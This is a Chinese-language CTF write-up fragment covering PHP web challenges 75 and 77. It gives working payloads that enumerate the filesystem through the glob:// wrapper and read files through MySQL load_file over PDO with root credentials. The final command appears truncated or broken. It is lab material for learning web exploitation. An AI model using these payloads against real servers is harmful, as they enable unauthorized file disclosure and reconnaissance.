 

### web75

还是一样通过glob协议找到文件为flag36.txt，但是include限制文件夹，之前的uaf poc因为strlen被禁了获取不到system地址也没法用了，但是既然php受限制，那么mysql的load_file函数呢?

payload:

```
c=try {$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root',
'root');foreach($dbh->query('select load_file("/flag36.txt")') as $row)
{echo($row[0])."|"; }$dbh = null;}catch (PDOException $e) {echo $e-
>getMessage();exit(0);}exit(0);
```



```
try {
	# 创建 PDO 实例, 连接 MySQL 数据库
	$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root', 'root');
	
	# 在 MySQL 中，load_file(完整路径) 函数读取一个文件并将其内容作为字符串返回。
	foreach($dbh->query('select load_file("/flag36.txt")') as $row) {
		echo($row[0])."|";
	}
	
	$dbh = null;
}

catch (PDOException $e) {
	echo $e->getMessage();exit(0);
}

exit(0);

```



### web77

use the glob://

```
c=?><?php $a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().' ');} exit(0);?>
```

flag在flag36x.txt中，准备读取。

c=$a='/flag36x > 1.txt';exit();



## 文件包含
